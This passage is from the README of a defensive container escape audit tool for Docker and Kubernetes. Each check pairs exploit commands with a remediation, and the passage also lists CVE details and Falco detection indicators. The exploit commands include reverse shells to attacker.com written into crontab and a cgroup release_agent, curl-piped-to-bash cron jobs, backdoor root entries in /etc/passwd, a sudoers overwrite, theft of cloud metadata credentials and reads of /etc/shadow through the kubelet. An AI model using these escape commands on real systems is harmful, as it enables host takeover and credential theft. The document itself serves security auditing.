mkdir /tmp/host && mount /dev/sda1 /tmp/host
chroot /tmp/host bash

# Or write a reverse shell into the host crontab
echo '* * * * * root bash -i >& /dev/tcp/attacker.com/4444 0>&1' \
  >> /tmp/host/etc/crontab
```

Remediation: Remove `--privileged`. Use `securityContext.capabilities` to grant only what the workload actually needs.

#### Check 2 -- Dangerous Linux capabilities (HIGH)

| Capability | Exploit path |
|---|---|
| `CAP_SYS_ADMIN` | Mount filesystems, load kernel modules, ptrace any process |
| `CAP_SYS_PTRACE` | Attach to any host process, inject shellcode |
| `CAP_SYS_MODULE` | Load a malicious kernel module |
| `CAP_NET_ADMIN` | Reroute traffic, ARP spoofing, modify host iptables |
| `CAP_DAC_READ_SEARCH` | Shocker exploit -- read any host file by inode |
| `CAP_BPF` | Load eBPF programs to inspect all kernel memory and function calls |

```bash
# With CAP_SYS_PTRACE -- enter all host namespaces via PID 1
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```

Remediation:

```yaml
securityContext:
  capabilities:
    drop: ["ALL"]
    add: ["NET_BIND_SERVICE"]
```

#### Check 3 -- Host namespace sharing (HIGH)

```bash
# hostPID: true -- enter host via PID 1
nsenter -t 1 -m -u -i -n -p -- bash

# hostNetwork: true -- sniff all node traffic
tcpdump -i eth0

# hostIPC: true -- read host shared memory
ipcs -a
```

Remediation:

```yaml
spec:
  hostPID: false
  hostNetwork: false
  hostIPC: false
```

#### Check 11 -- Seccomp / AppArmor / SELinux disabled (MEDIUM)

```bash
unshare -UrmC --fork bash
```

Remediation:

```yaml
securityContext:
  seccompProfile:
    type: RuntimeDefault
```

#### Check 27 -- User namespace UID mapping (HIGH)

Without user namespace remapping, UID 0 inside the container is UID 0 on the host. Any mount escape, socket access, or capability exploit yields host root directly -- no UID boundary to cross.

Remediation: Enable userns-remap in Docker (`userns-remap: default` in `/etc/docker/daemon.json`). In Kubernetes, use rootless containers or configure user namespace support (stable in 1.30+). Set `runAsNonRoot: true` in pod security context.

</details>

<details>
<summary><h3>Filesystem and mounts</h3></summary>

#### Check 4 -- Dangerous host filesystem mounts (CRITICAL)

```bash
# Docker socket -- instant host root
docker -H unix:///var/run/docker.sock run -v /:/host --privileged alpine \
  chroot /host bash

# /etc writable -- add root user
echo 'backdoor::0:0::/root:/bin/bash' >> /etc/passwd
su backdoor
```

Remediation: Never mount the Docker or containerd socket into application containers. Use `readOnly: true` for any required mounts.

#### Check 5 -- /proc filesystem exposure (CRITICAL)

```bash
# Execute arbitrary code as root via core_pattern
echo '|/tmp/payload' > /proc/sys/kernel/core_pattern
kill -SIGSEGV $$

# Read host process environment
cat /proc/1/environ | tr '\0' '\n'

# Reboot or crash the host
echo b > /proc/sysrq-trigger
```

Remediation: Mount `/proc/sys` read-only. Deny writes via seccomp.

#### Check 8 -- Writable cron directories (HIGH)

```bash
echo '* * * * * root curl http://attacker.com/shell.sh | bash' \
  > /etc/cron.d/backdoor
```

Remediation:

```yaml
securityContext:
  readOnlyRootFilesystem: true
```

#### Check 9 -- Writable authentication files (CRITICAL)

```bash
echo 'pwned::0:0:root:/root:/bin/bash' >> /etc/passwd
su pwned

echo 'ALL ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers
```

Remediation: Use `readOnlyRootFilesystem: true`. Never bind-mount `/etc` from the host.

#### Check 13 -- SUID/SGID binaries (MEDIUM)

```bash
find / -perm -4000 -type f 2>/dev/null

# If /usr/bin/find has SUID bit
find . -exec /bin/bash -p \; -quit
```

Remediation:

```dockerfile
RUN find / -xdev -perm /6000 -type f -exec chmod a-s {} \;
```

#### Check 17 -- Writable dynamic linker config (HIGH)

```bash
echo '/tmp/evil_lib' > /etc/ld.so.preload
# All subsequent SUID binary executions load the malicious library first
```

Remediation: Use `readOnlyRootFilesystem: true`.

#### Check 23 -- OverlayFS upper directory (MEDIUM)

Access to the OverlayFS upper layer allows modifying files that appear read-only, or reading data that was "deleted" in a later image layer. Useful for recovering secrets removed during image build.

Remediation: Restrict access to `/var/lib/docker` and `/var/lib/containerd` on the host.

#### Check 33 -- OCI hook injection (CRITICAL)

```bash
cat > /run/oci/hooks.d/backdoor.json << 'EOF'
{
  "version": "1.0.0",
  "hook": {"path": "/tmp/evil.sh"},
  "when": {"always": true},
  "stages": ["prestart"]
}
EOF
# /tmp/evil.sh runs on the host at the next container start
```

Remediation: Never mount OCI hook directories into containers. Related to NVIDIAScape (CVE-2025-23266) -- both exploit the OCI hook trust boundary.

</details>

<details>
<summary><h3>Kernel</h3></summary>

#### Check 10 -- /dev/mem and ptrace scope (CRITICAL)

```bash
dd if=/dev/mem bs=1 skip=$((0x100000)) count=1024 | strings

# ptrace_scope=0 -- attach to a privileged host process
gdb -p $(pgrep -n root)
```

Remediation: Ensure `/dev/mem` is not accessible. Set `kernel.yama.ptrace_scope=1` on all nodes.

#### Check 12 -- cgroup v1 release_agent (CRITICAL)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' >> /cmd
chmod +x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Remediation: Migrate to cgroup v2. Block `mount` syscalls via seccomp.

#### Check 14 -- Kernel CVEs (HIGH)

| CVE | Kernels affected | Impact |
|---|---|---|
| DirtyPipe CVE-2022-0847 | 5.8 to 5.16.11 | Overwrite read-only files via pipe splice |
| DirtyCOW CVE-2016-5195 | before 4.8.3 | Race condition write to read-only memory-mapped files |

Remediation: Patch the host kernel. Verify with `uname -r`.

#### Check 28 -- eBPF exposure (CRITICAL)

```bash
# Attach a kprobe to any kernel function across the host
bpftrace -e 'kprobe:vfs_read { printf("%s\n", str(arg1)); }'
# Captures arguments from all processes on the node
```

Remediation: Remove `CAP_BPF` and `CAP_SYS_ADMIN`. Apply seccomp to block `bpf(2)` (syscall 321 on x86_64). Set `kernel.unprivileged_bpf_disabled=1`.

#### Check 29 -- debugfs / tracefs (HIGH)

```bash
echo function > /sys/kernel/debug/tracing/current_tracer
echo 1 > /sys/kernel/debug/tracing/tracing_on
cat /sys/kernel/debug/tracing/trace
# Captures function arguments from all processes on the node
```

Remediation: Do not mount `/sys/kernel/debug` in containers.

#### Check 32 -- Kernel keyring (HIGH)

```bash
# List session keys (LUKS, Kerberos TGTs, fscrypt keys)
keyctl show @s

# With CAP_SYS_ADMIN -- read key contents
keyctl print <key-id>
```

Remediation: Remove `CAP_SYS_ADMIN`. Apply seccomp to block `keyctl(2)` (syscall 250 on x86_64).

#### Check 34 -- Page cache write primitives (HIGH)

`splice(2)` and `pipe2(2)` are the two syscalls underlying both Copy Fail (CVE-2026-31431) and DirtyPipe (CVE-2022-0847). Their availability confirms that the attack surface is not reduced by seccomp filtering.

Remediation: Apply a seccomp profile restricting both syscalls if the workload doesn't need them. Ensure the kernel is fully patched.

#### Check 35 -- Procfs namespace leakage (MEDIUM)

```bash
# With host PID namespace -- enter host mount namespace via PID 1
nsenter -t 1 -m -- ls /
cat /proc/1/environ | tr '\0' '\n'
```

Remediation: Mount `/proc` with `hidepid=2`. Set `hostPID: false`.

</details>

<details>
<summary><h3>Recent CVEs</h3></summary>

#### Check 24 -- Copy Fail (CVE-2026-31431) (CRITICAL)

Disclosed April 29 2026. A logic bug in the Linux kernel's `algif_aead` cryptographic module allows an unprivileged user to perform controlled 4-byte writes into the page cache of any readable executable via `AF_ALG` and `splice()`. By corrupting the in-memory copy of a setuid binary, an attacker escalates to root. Affects every Linux distribution shipping a kernel built since 2017. A ~732-byte Python PoC achieves root on Ubuntu 24.04, Amazon Linux 2023, RHEL 10.1, and SUSE 16. No capabilities required. On the CISA KEV list with confirmed active exploitation.

The script checks three things: whether an `AF_ALG` socket can be created, whether the `authencesn(hmac(sha512),cbc(aes))` AEAD algorithm can be bound, and whether `splice(2)` and `pipe2(2)` are seccomp-blocked.

Remediation:
- Apply kernel patches from your distribution (released from late April 2026)
- Interim: `rmmod algif_aead && echo install algif_aead /bin/false >> /etc/modprobe.d/disable-algif_aead.conf`
- Block `AF_ALG` socket creation via seccomp if it's not needed

#### Check 25 -- NVIDIAScape (CVE-2025-23266) (CRITICAL)

Disclosed July 2025. The NVIDIA Container Toolkit's `createContainer` OCI hook inherits environment variables from the container image without sanitising them. Setting `LD_PRELOAD` in a Dockerfile causes the hook to load a malicious shared library into a privileged host process before namespace isolation completes. Three lines in a Dockerfile gets you host root. Affects all NVIDIA Container Toolkit versions up to and including 1.17.7. Particularly acute in shared GPU multi-tenant cloud environments.

```dockerfile
FROM nvidia/cuda:12.4.1-base
ENV LD_PRELOAD=/tmp/evil.so
COPY evil.so /tmp/
```

Remediation:
- Upgrade NVIDIA Container Toolkit to 1.17.8 or later, GPU Operator to 25.3.1 or later
- Interim: set `disable-cuda-compat-lib-hook = true` in `/etc/nvidia-container-toolkit/config.toml`
- Scan running pods for images with `LD_PRELOAD` pointing to writable paths

#### Check 26 -- runc masked path race (CVE-2025-31133 / CVE-2025-52565 / CVE-2025-52881) (CRITICAL)

Disclosed November 2025. Three related race conditions in runc's mount handling allow a low-privileged attacker who can spawn containers to write to arbitrary `/proc` files. CVE-2025-31133 and CVE-2025-52565 both allow writing to `/proc/sys/kernel/core_pattern` (arbitrary host code execution) and `/proc/sysrq-trigger` (immediate host reboot). CVE-2025-52881 additionally bypasses AppArmor and SELinux. Affects all runc versions prior to 1.2.8, 1.3.3, and 1.4.0-rc.3.

Remediation:
- Update runc to 1.2.8, 1.3.3, or 1.4.0-rc.3
- Enable user namespaces for containers (host root not mapped)
- AppArmor and SELinux provide limited protection due to CVE-2025-52881's LSM bypass

#### CVE-2026-46333 -- Ptrace Credential Hijack (HIGH)

Disclosed May 2026 by Qualys TRU. A logic flaw in the kernel's `__ptrace_may_access()` leaves a privileged process that is dropping its credentials briefly reachable through ptrace-family operations. Paired with `pidfd_getfd()`, an unprivileged local user can capture open file descriptors and authenticated IPC channels from a dying setuid process and reuse them under their own UID — disclosing files like `/etc/shadow` and SSH host keys, or executing commands as root. The vulnerable code dates to v4.10 (2016), but the public exploit path depends on `pidfd_getfd()` (added in v5.6, 2020), so 5.6 is the realistic exploitable floor. Working exploits are public.

The engine performs a `kernel_version` check against the 5.6+ range. On shared or multi-tenant container hosts, any unprivileged foothold becomes a path to host root.

Remediation:
- Apply the distribution kernel update
- Interim: set `kernel.yama.ptrace_scope=2` (blocks the public `pidfd_getfd` path)
- Rotate SSH host keys and review credentials handled by setuid processes if untrusted local users had access during the exposure window

#### CVE-2026-23111 -- nf_tables anonymous set UAF (HIGH)

Patched upstream February 2026; technical details and a working PoC published June 2026 by Exodus Intelligence. A use-after-free in the `nf_tables` subsystem, triggered through the kernel's handling of anonymous sets in rule definitions. Writing to freed kernel memory leads to type confusion or control-flow hijack, giving an unprivileged local user root. In containerised scenarios this translates directly to container escape, compromising the host kernel and co-located tenants.

The engine runs a `compound` check (kernel version plus `nf_tables` module presence — the module is already audited by check 47). Exploitation typically requires the ability to interact with `nf_tables` via `nft` or syscalls, usually needing unprivileged user namespaces.

Remediation:
- Apply the distribution kernel update (fix upstream since 5 Feb 2026)
- Interim: restrict unprivileged user namespaces with `user.max_user_namespaces=0`
- Ensure non-admin users cannot interact with `nft`

#### CVE-2026-46300 -- Fragnesia (HIGH)

Disclosed May 2026. A local privilege escalation in the kernel's ESP (Encapsulating Security Protocol) modules used for IPsec — the same `esp4`/`esp6` modules affected by one of the Dirty Frag vulnerabilities. In container deployments that may run arbitrary third-party workloads it may additionally facilitate container escape, though no container-escape PoC was published at disclosure.

The engine runs a `compound` check leveraging the existing `esp4`/`esp6` module audit (check 46). Because it shares modules with Dirty Frag, a host already mitigated for Dirty Frag is covered.

Remediation:
- Apply the distribution kernel update
- The Dirty Frag mitigation (disabling/blacklisting the `esp4` and `esp6` modules) also protects against this issue where those modules aren't required

</details>

<details>
<summary><h3>Kubernetes and cloud</h3></summary>

#### Check 6 -- Service account token and RBAC (HIGH-CRITICAL)

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://kubernetes.default.svc

# What can this token do?
curl -s -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/authorization.k8s.io/v1/selfsubjectaccessreviews

# If it has secrets access
curl -s -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/secrets

# If it can create pods -- launch a privileged escape pod
curl -s -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  $APISERVER/api/v1/namespaces/default/pods -d @evil-privileged-pod.json
```

Remediation:

```yaml
spec:
  automountServiceAccountToken: false
```

Audit permissions with `kubectl auth can-i --list`.

#### Check 7 -- Environment variable secret leakage (MEDIUM)

```bash
printenv
cat /proc/1/environ | tr '\0' '\n'
```

Remediation: Mount secrets as files rather than env vars. Use an external secrets manager. Rotate anything exposed.

#### Check 15 -- Cloud IMDS (CRITICAL)

```bash
# AWS
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>

# GCP
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Azure
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

Remediation: Enforce IMDSv2 on AWS. Use Workload Identity on GCP/Azure. Block `169.254.169.254` via NetworkPolicy.

#### Check 16 -- Kubelet API unauthenticated (CRITICAL)

```bash
curl -sk https://<node-ip>:10250/pods
curl -sk https://<node-ip>:10250/run/<namespace>/<pod>/<container> \
  -d "cmd=cat /etc/shadow"
curl http://<node-ip>:10255/pods
```

Remediation: Set `--anonymous-auth=false` and `--authorization-mode=Webhook` on the kubelet.

#### Check 20 -- Secret mount directories (HIGH)

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
ls /run/secrets/
```

Remediation: Use projected service account tokens with short expiry:

```yaml
volumes:
  - name: token
    projected:
      sources:
        - serviceAccountToken:
            expirationSeconds: 3600
            path: token
```

#### Check 30 -- Kubernetes RBAC active probing (HIGH-CRITICAL)

The script actively POSTs `SelfSubjectAccessReview` requests to check six specific permissions: creating pods in kube-system, listing secrets cluster-wide, executing into pods, binding ClusterRoles, and creating DaemonSets.

```bash
# If create pods in kube-system is allowed
kubectl run escape --image=ubuntu --privileged --overrides='
{"spec":{"hostPID":true,"hostNetwork":true,
 "volumes":[{"name":"h","hostPath":{"path":"/"}}],
 "containers":[{"name":"c","image":"ubuntu",
   "volumeMounts":[{"name":"h","mountPath":"/host"}]}]}}'
```

Remediation: Full RBAC audit. Use namespace-scoped Roles rather than ClusterRoles.

</details>

<details>
<summary><h3>Host access</h3></summary>

#### Check 18 -- Namespace escape tooling (MEDIUM)

```bash
nsenter -t 1 -m -u -i -n -p -- bash
crictl ps && crictl exec -it <container-id> bash
```

Remediation: Minimal or distroless base images. Enforce image scanning in CI.

#### Check 21 -- SSH private keys readable (HIGH)

```bash
find / -name 'id_rsa' -o -name 'id_ed25519' -o -name '*.pem' 2>/dev/null
ssh -i /found/key user@internal-host
```

Remediation: Never bake SSH keys into images. Use short-lived certificates.

#### Check 31 -- Additional runtime sockets (CRITICAL)

```bash
# Podman
podman -r --url unix:///run/podman/podman.sock run --privileged ...

# BuildKit -- inject into CI builds or exfiltrate build secrets
buildctl --addr unix:///run/buildkit/buildkitd.sock build ...
```

Remediation: Audit all volume mounts for runtime socket paths.

</details>

## Integration

### Falco

This script is point-in-time. For continuous runtime detection, pair it with Falco rules covering:

- Writes to `release_agent` or `core_pattern`
- Spawning of `nsenter`, `unshare`, or `runc` inside containers
- Access to `/var/run/docker.sock`
- Unexpected outbound connections to `169.254.169.254`
- `AF_ALG` socket creation from non-root processes (Copy Fail indicator)
- `LD_PRELOAD` set to paths in `/tmp` or `/dev/shm` (NVIDIAScape indicator)
- Symlink creation over `/dev/null` or `/dev/pts/*` (runc CVE-2025-31133 indicator)
- `nft` execution or `nf_tables` interaction by non-root users (CVE-2026-23111 indicator)
- `pidfd_getfd` use against setuid processes by non-root users (CVE-2026-46333 indicator)
- `io_uring_setup` / `io_uring_enter` from unprivileged container processes (CVE-2026-43121 / io_uring LPE indicator)
- `setsockopt(TCP_ULP, "tls")` from workload processes (kTLS/sockmap UAF surface)
- Access to the kata-agent socket or writes into `/run/kata-containers/shared/*` (CVE-2026-41326 indicator)
- On arm64 KVM hosts: unexpected guest-driven activity around the vGIC-ITS / `/dev/kvm` (CVE-2026-46316 ITScape indicator)

### CI/CD

```bash
CRITICAL_COUNT=$(./container_escape_audit.sh --json --no-report \
  | jq '[.findings[] | select(.severity=="CRITICAL")] | length')
if [ "$CRITICAL_COUNT" -gt 0 ]; then
  echo "FAILED: $CRITICAL_COUNT critical escape vectors detected"
  exit 1
fi
```

### SIEM

```bash
./container_escape_audit.sh --json --no-report | \
  jq -c '.findings[]' | \
  while read -r finding; do
    curl -s -X POST https://your-siem/api/events \
      -H 'Content-Type: application/json' \
      -d "$finding"
  done
```

## CVE engine

CVE checks are driven by `cve_checks.conf` — a plain-text key=value database that lives alongside the script. The engine parses it at runtime and runs the appropriate test for each entry. The script does not need to be modified to add, update, or disable a CVE.

### Adding a new CVE

Append a block to `cve_checks.conf`:

```ini
cve_id=CVE-2025-XXXXX
name=Short name
cvss=8.1
severity=HIGH
check_type=compound
introduced=6.1
fixed_versions=6.6:6.6.50 6.12:6.12.5
itw=no
poc_public=yes
cisa_kev=no
subsystem=fs/btrfs
module_names=btrfs
mitigation=none
socket_af=none
socket_type=none
socket_proto=none
what=What the vulnerability is...
impact=What an attacker can do...
exploit=How hard it is to exploit...
rec=How to fix it...
```

To disable an entry without removing it, prefix its `cve_id` line with `#`.

**Every entry must include both `rec` and `mitigation`.** The `rec` field is the full remediation (usually "patch to version X"); the `mitigation` field is an interim compensating control that reduces risk before patching (for example a `modprobe` blacklist, a sysctl, or a seccomp rule). Both are surfaced together in each active finding's recommendation, so an operator always sees a fix *and* a stop-gap. If no interim control exists, set `mitigation=none` — the finding will then state "Interim mitigation: none available — patching/upgrading is the only remediation." A missing (rather than `none`) `mitigation` or `rec` field triggers an `[INFO]` warning at load time so the gap is visible. Inline `# comments` are stripped from machine-parsed fields (versions, enums, socket params, `arch`) but preserved verbatim in prose fields (`what`, `impact`, `exploit`, `rec`, `mitigation`, `notes`), so keep prose-field annotations inside the sentence rather than as trailing comments.

### Check types

| Type | What it does |
|------|-------------|
| `kernel_version` | Compares `uname -r` against `introduced` and `fixed_versions` |
| `module_loaded` | Checks `/proc/modules` for the listed `module_names` |
| `socket_family` | Attempts to open a socket with the given `socket_af` / `socket_type` / `socket_proto` |
| `compound` | Runs all three and synthesises a combined severity |
| `manual` | Advisory/tracking entry for runtime or userspace CVEs that do not reduce to a kernel test. Emits a finding at the configured `severity` for inventory; live detection is handled by a dedicated script check named in the entry's `rec`/`notes`. Optional `component` / `component_affected` / `component_fixed` keys document the affected package version. |

### Architecture-specific CVEs

Some CVEs only affect one CPU architecture — for example **ITScape (CVE-2026-46316)** is arm64-only. Add an `arch=` key to gate the entry:

```ini
arch=arm64    # or x86_64, etc.  Aliases (aarch64/arm64, amd64/x86_64) are normalised.
```

When `arch=` is present and does not match `uname -m`, the engine reports the CVE as **N/A (INFO)** on that host instead of running the version/module/socket test — preventing a false positive on kernel version alone. Entries without an `arch=` key (or with `arch=any`) are tested on every architecture, as before. The companion script check 51 performs a complementary architecture-aware probe that further distinguishes an arm64 KVM *host* from a *guest* vantage point.

### Keeping the database current

Version `cve_checks.conf` separately from the script. When a distribution ships a patch for a listed CVE, add the version to `fixed_versions` for that entry. When in-the-wild status changes, update `itw=`. A suggested workflow:

```bash
# Pull the latest database from the repo
curl -sO https://raw.githubusercontent.com/liamromanis101/K8s-container_escape_audit/main/cve_checks.conf
```

## Releasing (maintainers)

Releases are cut as Git tags matching `v*`, which triggers the SLSA provenance workflow. The workflow hashes both release artifacts, generates a signed `multiple.intoto.jsonl` attestation, and attaches it to the GitHub release.

```bash
# Cut a new release from main (creates the tag, the release, and fires provenance)
gh release create vX.Y --target main --generate-notes

# Watch the provenance workflow
gh run watch

# Confirm the signed provenance attached to the release
gh api repos/liamromanis101/K8s-container_escape_audit/releases/tags/vX.Y \
  --jq '.assets[].name'   # expect: multiple.intoto.jsonl
```

Two points worth remembering: the provenance generator is **tag-triggered**, so the workflow runs on the tag push (not on a plain "release created" event); and a Git tag freezes the workflow file as it existed at that commit, so always land workflow fixes on `main` before cutting the tag.

## Contributing

When adding a new check function:

1. Add a `check_<name>()` function to the script
2. Call `add_finding` with all seven fields: id, severity, title, what, impact, exploitability, recommendation
3. Register the function call in the relevant MAIN section
4. Update the checks table in this README

To add or update a CVE, edit `cve_checks.conf` only — no script changes needed.

## Legal

For authorised security testing only. Running this against systems without explicit written permission from the system owner may be illegal in your jurisdiction. No liability is accepted for misuse.

Copyright (c) 2026 Liam Romanis. Licensed under [CC BY-NC 4.0](https://creativecommons.org/licenses/by-nc/4.0/) — free for non-commercial use with attribution. See [LICENSE](LICENSE) for full terms.

### Commercial use

This tool is free for personal use, internal security assessments, open-source projects, and non-profit work. If you are using it as part of a commercial engagement — for example as a consultant billing a client, or as a component of a paid product or service — commercial use terms apply under CC BY-NC 4.0.

We are happy to discuss sponsorship arrangements for commercial users. Sponsorship helps fund continued development, CVE database maintenance, and new check coverage. If you or your organisation would like to support the project in exchange for commercial use rights, please reach out:

**GitHub Sponsors:** [github.com/sponsors/liamromanis101](https://github.com/sponsors/liamromanis101)

Sponsorship does not grant exclusivity or any change to the open licence for non-commercial users.

## References

- [Linux Capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [GTFOBins](https://gtfobins.github.io/)
- [Kubernetes Pod Security Admission](https://kubernetes.io/docs/concepts/security/pod-security-admission/)
- [CIS Kubernetes Benchmark](https://www.cisecurity.org/benchmark/kubernetes)
- [SLSA — Supply-chain Levels for Software Artifacts](https://slsa.dev/)
- [slsa-verifier](https://github.com/slsa-framework/slsa-verifier)
- [CVE-2026-31431 Copy Fail](https://en.wikipedia.org/wiki/Copy_Fail)
- [CVE-2026-46333 Ptrace credential hijack (Qualys TRU)](https://blog.qualys.com/vulnerabilities-threat-research/2026/05/20/cve-2026-46333-local-root-privilege-escalation-and-credential-disclosure-in-the-linux-kernel-ptrace-path)
- [CVE-2026-23111 nf_tables UAF](https://securityarsenal.com/blog/cve-2026-23111-linux-kernel-nftables-privilege-escalation-detection-and-hardening)
- [CVE-2026-46300 Fragnesia](https://ubuntu.com/blog/fragnesia-linux-vulnerability-fixes-available)
- [CVE-2026-43284 / CVE-2026-43500 Dirty Frag](https://www.openwall.com/lists/oss-security/2026/05/)
- [CVE-2026-43503 DirtyClone (JFrog Security Research)](https://research.jfrog.com/post/dissecting-and-exploiting-linux-lpe-variant-dirtyclone-cve-2026-43503/)
- [CVE-2026-46331 pedit COW (Debian DSA-6355-1)](https://security-tracker.debian.org/tracker/CVE-2026-46331)
- [CVE-2024-1086 Flipping Pages](https://github.com/Notselwyn/CVE-2024-1086)
- [CVE-2025-23266 NVIDIAScape](https://www.wiz.io/blog/nvidia-ai-vulnerability-cve-2025-23266-nvidiascape)
- [CVE-2025-31133 runc masked path](https://www.cncf.io/blog/2025/11/28/runc-container-breakout-vulnerabilities-a-technical-overview/)
- [CVE-2026-46316 ITScape — KVM/arm64 guest-to-host escape](https://seclists.org/oss-sec/2026/q2/877)
- [CVE-2026-43121 io_uring zcrx freelist OOB](https://seclists.org/oss-sec/2026/q2/444)
- [CVE-2022-47939 ksmbd UAF RCE (Wiz)](https://www.wiz.io/blog/cve-2022-47939-critical-vulnerability-linux-kernel-ksmbd-module-everything-you-ne)
- [CVE-2026-41326 Kata CopyFile symlink subversion](https://github.com/kata-containers/kata-containers/security/advisories/GHSA-q49m-57vm-c8cc)
- [CVE-2026-46680 containerd runAsNonRoot bypass](https://github.com/containerd/containerd/security/advisories/GHSA-fqw6-gf59-qr4w)
- [CVE-2026-41579 runc /dev symlink](https://github.com/opencontainers/runc/security/advisories/GHSA-xjvp-4fhw-gc47)
- [CVE-2022-0847 DirtyPipe](https://dirtypipe.cm4all.com/)
- [CVE-2019-5736 runc escape](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [CVE-2024-21626 Leaky Vessels (Snyk Labs)](https://labs.snyk.io/resources/cve-2024-21626-runc-process-cwd-container-breakout/)
- [Felix Wilhelm's cgroup release_agent PoC](https://twitter.com/_fel1x/status/1151487051986087936)
- [deepce](https://github.com/stealthcopter/deepce)
- [CDK](https://github.com/cdk-team/CDK)
- [Trail of Bits — Understanding and Hardening Linux Containers](https://github.com/trailofbits/publications/blob/master/papers/understanding_hardening_linux_containers.pdf)
- [CVE-2026-43494 PinTheft (V12 Security PoC)](https://github.com/v12-security/pocs/tree/main/pintheft)
